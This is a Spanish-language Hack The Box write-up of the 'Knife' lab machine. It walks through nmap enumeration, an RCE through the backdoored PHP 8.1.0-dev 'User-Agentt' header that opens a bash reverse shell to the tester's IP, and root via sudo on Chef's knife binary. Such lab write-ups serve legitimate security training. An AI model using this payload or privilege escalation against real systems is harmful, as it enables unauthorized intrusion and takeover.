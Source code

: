 ```yaml
---
category: Hack The Box
tags:
  - HTB
  - eJPT
title: Machine Knife
comments: true
image: /assets/img/machines/knife/knifebanner.jpeg
---
```

# Introducción 

Knife es una máquina Linux de dificultad fácil que cuenta con una aplicación que se ejecuta en una versión de PHP con puerta trasera. Esta vulnerabilidad se aprovecha para obtener acceso al servidor. Una configuración incorrecta de sudo se explota posteriormente para obtener acceso a la consola de root.

### Skills

Abusing Sudoers Privilege (Knife Binary) (Privilege Escalation)
PHP 8.1.0-dev - 'User-Agent' Remote Code Execution (RCE)


# Enumeración

```bash
nmap -sCV -p22,80 10.10.10.242

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 16:56 -04
Nmap scan report for 10.10.10.242
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.77 seconds
```

### Puertos

- 22 ----> OpenSSH 8.2P1 Ubuntu 4Ubuntu0.2
- 80 ----> http Apache httpd 2.4.41 ((Ubuntu))


# PHP 8.1.0-dev user-agentt exploit

Este código ejecuta un ataque de **reversión de shell** a través de una solicitud HTTP con `curl`

```bash
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem ('bash -c \"bash -i >& /dev/tcp/10.10.16.6/443 0>&1\"');" | html2text
```

- `curl` es una herramienta para hacer solicitudes HTTP.

- `-s` (silent) evita que curl muestre mensajes de progreso.

- `-X GET` indica que se hará una solicitud HTTP **GET** a `http://10.10.16.6`.
  
- `-H` se usa para añadir un encabezado HTTP personalizado.


 A la vez ejecutar en otra terminal la escucha para ganar acceso.

```bash
nc -nlvp 443
```


```bash
james@knife:/$ cd
james@knife:~$ cat user.txt
```

## Alternativa


```bash
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'");
```

![burpsuite](/assets/img/machines/knife/1.jpeg)


# Abusing Sudoers Privilege (Knife Binary) (Privilege Escalation)


Este comando intenta abrir una shell (`/bin/sh`) como `root` dentro del contexto de **Chef Knife**, lo que podría otorgar acceso de superusuario en sistemas donde Chef está instalado y configurado correctamente.

```bash
james@knife:~$ sudo -u root knife exec -E 'exec "/bin/sh"'
james@knife:~$ cd /rot/
james@knife:~$ cat root.txt
```

- **`sudo -u root`**

	- Ejecuta el siguiente comando como el usuario `root`.
    - Si el usuario que lo ejecuta tiene permisos de `sudo`, podrá elevar privilegios.


- **`knife exec -E 'exec "/bin/sh" '`**

    - `knife` es una herramienta de línea de comandos del framework de administración de configuración **Chef**.
    - `exec -E '...'` permite ejecutar código Ruby desde la línea de comandos.
    - `exec "/bin/sh"` dentro de Ruby reemplaza el proceso actual con una nueva shell (`sh`).
